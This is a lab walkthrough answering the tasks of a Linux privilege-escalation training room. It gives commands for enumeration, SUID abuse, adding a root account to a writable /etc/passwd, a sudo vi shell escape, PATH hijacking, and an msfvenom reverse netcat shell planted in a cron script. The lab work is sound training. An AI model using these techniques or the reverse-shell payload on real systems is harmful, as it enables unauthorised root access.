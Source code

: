 # Common Linux Privesc

- Deploy the machine

	  no answer needed

- Read the information about privilege escalation

	  no answer needed

- Understand the difference between Horizontal and Vertical privilege escalation.

	  no answer needed

- First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.

	- `ssh user3@<TARGET_IP>`, `yes` and insert password.
	- On your machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- On your machine `sudo python3 -m http.server`
	- On target `wget http://<YOUR_IP>:8000/LinEnum.sh`
	- `chmod +x LinEnum.sh`
	- `./LinEnum.sh`

- What is the target's hostname?

	- `polobox`

- Look at the output of /etc/passwd how many "user[x]" are there on the system?

	- `8`

- How many available shells are there on the system?

	- `4`

- What is the name of the bash script that is set to run every 5 minutes by cron?

	- `autoscript.sh`

- What critical file has had its permissions changed to allow some users to write to it?

	- `/etc/passwd`

- Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!

	  no answer needed

- What is the path of the file in user3's directory that stands out to you?

	- `/home/user3/shell`

- We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it! We can do this by running: "./shell"

	  no answer needed

- Congratulations! You should now have a shell as root user, well done!

	  no answer needed

- First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"

	  no answer needed

- Having read the information above, what direction privilege escalation is this attack?

	- `vertical`

- Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]" What is the hash created by using this command with the salt, "new" and the password "123"?

	- `***********************`

- Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

	- Read the hint
	- `*************************************************`

- Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!

	  no answer needed

- Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!

	  no answer needed

- First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"

	  no answer needed

- Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

	- `NOPASSWD`

- So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.

	  no answer needed

- Now, type ":!sh" to open a shell!

	  no answer needed

- First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"

	  no answer needed

- Now, on our host machine- let's create a payload for our cron exploit using msfvenom.

	  no answer needed

- What is the flag to specify a payload in msfvenom?

	- `-p`

- Create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`

	  no answer needed

- What directory is the "autoscript.sh" under?

	- `/home/user4/Desktop`

- Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

	  no answer needed

- After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!

	  no answer needed

- After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 

	  no answer needed

- Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"

	  no answer needed

- Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

	- `ls`

- Now we know what command to imitate, let's change directory to "tmp".

	  no answer needed

- Now we're inside tmp, let's create an imitation executable. The format for what we want to do is: echo "[whatever command we want to run]" > [name of the executable we're imitating] What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

	- `echo "/bin/bash" > ls`

- Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

	- `chmod +x ls`

- Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH". Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is. Once you've finished the exploit, you can exit out of root and use "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" to reset the PATH variable back to default, letting you use "ls" again!

	  no answer needed

- Now, change directory back to user5's home directory.

	  no answer needed

- Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!

	  no answer needed

- Well done, you did it!

	  no answer needed





